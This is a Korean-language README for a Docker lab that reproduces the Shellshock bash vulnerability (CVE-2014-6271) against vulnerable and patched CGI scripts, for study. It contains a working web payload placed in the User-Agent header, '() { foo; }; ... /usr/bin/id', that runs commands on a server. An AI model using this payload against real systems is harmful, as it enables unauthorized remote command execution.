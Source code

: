 # CVE-2014-6271

#### Contributor

진규정 (@gyutrange)

### 요약

취약점: bash의 환경변수를 설정할 때 발생함.

foo라는 환경 변수 설정시,  함수 형태로 선언하면 설정 내부에서 함수로 인식함.
이때, 함수 뒤에 있는 스크립트까지 함께 실행되면서 취약점과 위협이 발생하게 됨.

```
export foo='() { echo hello; }; pwd; ls;'
```

bash가 실행되면 `pwd; ls;` 뒷 부분의 스크립트가 실행됨. 

Bash CGI는 request시의 User-Agent값을 환경변수에 저장하므로 CGI를 이용하는 서버에 취약점을 발생시킴.
(따로 쉘을 실행시키지 않아도 공격이 가능함.)

<br>

### 환경 구성 및 실행

```bash
docker compose build
docker compose up -d
```

http://your-ip/ 에 접속하면 두 개의 파일이 보임.

![](cgi.png)

1. safe.cgi : 최신버전의 bash로 생성.
2. victim.cgi : 취약한 4.3버전 bash로 생성.

<br>

### 결과

![](1.png)

`() { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id` 스크립트를 User-Agent header값에 넣으면 `/usr/bin/id` 가 실행되며 결과가 나타남.

![](2.png)

safe.cgi로 공격을 할 경우 페이로드가 통하지 않는다.

<br>

### 결

- CVE-2014-6271는shellshock로 매우 위험한 취약점임.
- 웹의 request만으로 쉘 명령어를 사용할 수 있음.
